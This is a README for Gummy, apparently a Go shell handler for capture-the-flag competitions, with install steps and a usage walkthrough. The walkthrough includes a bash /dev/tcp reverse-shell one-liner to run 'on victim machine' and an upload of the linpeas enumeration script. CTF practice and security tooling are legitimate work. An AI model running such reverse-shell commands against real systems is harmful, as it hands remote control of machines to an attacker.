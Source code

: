 # Gummy - Advanced Shell Handler for CTFs

## Project Overview

Gummy is a modern shell handler written in Go, designed for CTF competitions. It's a port/reimplementation of [Penelope](https://github.com/brightio/penelope) with enhanced features and a beautiful CLI interface using Bubble Tea components.

**Primary Goals:**
- Learn Go by building a practical tool
- Create a robust reverse/bind shell handler for CTFs
- Implement advanced features (PTY upgrade, file transfers, port forwarding)
- Build a polished CLI with Bubble Tea components (Lipgloss styling, interactive confirmations)

## Quick Start

### Installation
```bash
# Clone repository
git clone https://github.com/chsoares/gummy.git
cd gummy

# Build binary
go build -o gummy

# Run with interface binding (recommended)
./gummy -i eth0 -p 4444

# Or with direct IP
./gummy -ip 10.10.14.5 -p 4444
```

### Basic Workflow
```bash
# 1. Start listener
./gummy -i tun0 -p 4444

# 2. Generate payload (in gummy menu)
󰗣 gummy ❯ rev
# Copy one of the generated payloads

# 3. Execute on victim machine
bash -c 'exec bash >& /dev/tcp/10.10.14.5/4444 0>&1 &'

# 4. Session automatically appears
 Reverse shell received on session 1 (10.10.11.123)

# 5. Use the session
󰗣 gummy ❯ use 1
 Using session 1 (10.10.11.123)

# 6. Enter interactive shell
󰗣 gummy [1] ❯ shell
 Entering interactive shell
# PTY upgrade happens automatically!

# 7. Or upload/download files
󰗣 gummy [1] ❯ upload linpeas.sh /tmp/linpeas.sh
⠋ Uploading linpeas.sh... 100%
 Upload complete! (MD5: 8b1a9953)
```

